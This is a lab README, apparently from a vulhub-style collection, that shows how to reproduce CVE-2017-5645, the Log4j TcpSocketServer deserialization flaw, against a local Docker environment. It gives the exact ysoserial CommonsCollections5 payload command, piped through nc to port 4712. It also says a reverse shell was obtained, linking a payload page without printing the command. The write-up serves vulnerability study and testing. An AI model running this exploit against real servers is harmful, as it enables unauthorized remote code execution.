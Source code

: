 # Apache Log4j Server Deserialization Command Execution Vulnerability (CVE-2017-5645)

Apache Log4j is a logging library for Java with support for launching remote logging servers.A security vulnerability exists in version 2.x of Apache Log4j prior to 2.8.2. An attacker can exploit this vulnerability to execute arbitrary code.

## Vulnerable environment

Execute the following command to start the vulnerable environment

```bash
docker-compose up -d
```

Once the environment starts, a TCPServer will be opened on port 4712.

As a side note, in addition to building the environment using the docker image from vulhub, we can start this TCPServer directly from the command line after downloading the log4j jar file: `java -cp "log4j-api-2.8.1.jar:log4j-core-2.8.1.jar:jcommander- 1.72.jar" org.apache.logging.log4j.core.net.server.TcpSocketServer` without using vulhub and writing code.

## Vulnerability Replication

We use ysoserial to generate the payload and just send it directly to port `your-ip:4712`.

```bash
java -jar ysoserial-master-v0.0.5-gb617b7b-16.jar CommonsCollections5 "touch /tmp/success" | nc your-ip 4712
```

Then run `docker-compose exec log4j bash` into the container and see that /tmp/success has been successfully created:

![](1.png)

Executing [command to bounce shell](http://www.jackson-t.ca/runtime-exec-payloads.html) successfully bounced the shell:

![](2.png)

For a detailed guide on the **Apache Log4j Server Deserialization Command Execution Vulnerability (CVE-2017-5645)**, including a comprehensive explanation of the vulnerability and potential attack, please refer to the project's documentation at [GitHub Pages](https://sne-m23-sn.github.io/Vulnerable-Nodes-Lab/#CVE-2017-5645).
